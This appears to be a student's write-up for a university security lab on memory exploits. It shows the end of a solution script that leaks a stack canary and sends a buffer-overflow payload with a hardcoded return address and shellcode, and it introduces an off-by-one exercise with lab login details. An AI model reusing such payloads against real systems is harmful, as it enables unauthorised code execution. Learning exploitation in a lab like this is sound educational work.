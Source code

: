 ```c

program_output = p.recv(17)

stack_canary = program_output[-4:]
print([hex(ord(c)) for c in stack_canary])

p.send('A'*32 + stack_canary + 'A'*12 + '\xf0\xd7\xff\xff' + SHELLCODE)

### YOUR CODE ENDS HERE ###
```


# Q4 Off-by-one Attack - Medium
> [!overview]
> See [Off-By-One Vulnerabilities(Fencepost)](2_Memory_Vulnerability.md#Off-By-One%20Vulnerabilities(Fencepost))
> `username`: vegas
> `password`: whyishould


## File Structure
> [!important]
> The `exploit` script in this question is slightly different. The output of `egg` is used as an _environment variable_, which means its value is placed at the top of the stack. The output of `arg` is used as the input to the program, passed as an argument on the command line (in the `argv` array to `main`).
> ![](Project_1.assets/image-20240304190210204.png)![](Project_1.assets/image-20240304190220882.png)
> Here we see the program `exploit` will send an environment variable `EGG=$(./egg)` which is the output from `egg` file to the `flipper` program, which can access it by `p environ[4]` in GDB.
> - `environ[0]` is "SHLVL=1"
> - `environ[1]` is "PAD=", `\377` <repeats 196 times>
> - `environ[2]` is "TERM=screen"
> - `environ[3]` is "SHELL=/biun/sh"
> - `environ[4]` is "EGG=<user_input>"
> 
> Also `flipper` takes in an argument `$(./arg)`, which is the output from program `arg`, which can be fetched by `argv[1]`.
